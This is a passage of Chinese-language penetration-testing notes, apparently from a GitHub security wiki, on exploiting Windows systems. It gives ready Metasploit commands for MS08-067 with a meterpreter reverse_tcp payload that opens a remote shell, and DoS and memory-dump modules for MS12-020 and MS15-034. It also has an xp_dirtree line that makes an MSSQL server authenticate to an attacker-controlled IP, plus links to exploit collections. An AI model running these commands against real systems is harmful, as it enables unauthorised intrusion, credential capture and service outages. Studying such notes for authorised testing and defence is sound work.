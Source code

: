     或者配合 mssql
    ```
    xp_dirtree "\\<linuxIPaddress>\aaa.com"
    ```

---

# 漏洞利用

**资源**
- [SecWiki/windows-kernel-exploits](https://github.com/SecWiki/windows-kernel-exploits) - Windows 平台提权漏洞集合
- [WindowsExploits/Exploits](https://github.com/WindowsExploits/Exploits)- Windows Exploits

---

## 提权

关于 windows 更多提权内容,见笔记 [权限提升](./后渗透/权限提升.md#win) windows 提权部分

---

## 远程

**MS08-067 & CVE-2008-4250**
- MSF 模块
    ```bash
    use exploit/windows/smb/ms08_067_netapi
    set payload windows/x64/meterpreter/reverse_tcp
    set target 0
    ```

**MS12-020 & CVE-2012-0002**
- MSF 模块
    ```bash
    use auxiliary/scanner/rdp/ms12_020_check
    use auxiliary/dos/windows/rdp/ms12_020_maxchannelids
    ```

**MS14-066 & CVE-2014-6321**
- POC | Payload | exp
    - [anexia-it/winshock-test](https://github.com/anexia-it/winshock-test)

**MS15-034 & CVE-2015-1635**
- POC | Payload | exp
    - [MS15-034 Checker](https://pastebin.com/ypURDPc4)

- 相关文章
    - [MS15-034/CVE-2015-1635 HTTP远程代码执行漏洞分析](http://blogs.360.cn/post/cve_2015_6135_http_rce_analysis.html)

- MSF 模块
    ```bash
    use auxiliary/scanner/http/ms15_034_http_sys_memory_dump    # 读取服务器内存数据
    use auxiliary/dos/http/ms15_034_ulonglongadd    # 进行 dos 攻击
    ```

